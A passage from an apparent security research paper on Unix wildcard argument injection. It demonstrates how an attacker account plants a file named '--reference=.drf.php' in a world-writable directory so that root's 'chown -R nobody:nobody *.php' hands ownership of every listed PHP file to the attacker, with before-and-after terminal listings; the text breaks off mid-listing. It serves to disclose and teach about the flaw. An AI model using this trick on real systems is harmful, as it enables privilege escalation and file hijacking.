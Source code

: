 

# 4. Something more useful...

Since now we know how it's possible to inject arbitrary arguments to
shell commands, let's demonstrate few examples that are more useful,
than just recursive file unlinking.
First, when I stumbled across this wildcard tricks, I was starting to look
for basic and common Unix programs that could be seriously affected 
with arbitrary and unexpected arguments. 
In real-world cases, following examples could be abused in form of direct
interactive shell poisoning, or through some commands started from cron job,
shell scripts, through some web application, and so on.
In all examples below, attacker is hidden behind 'leon' account, and victim 
is of course - root account.



## 4.1 Chown file reference trick (file owner hijacking)

First really interesting target I've stumbled across is 'chown'. 
Let's say that we have some publicly writeable directory with bunch of
PHP files in there, and root user wants to change owner of all PHP files to 'nobody'.
Pay attention to the file owners in the following files list.

[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', 
and root user will now change that to 'nobody'.

[root@defensecode public]# chown -R nobody:nobody *.php

Let's see who owns files now...

[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php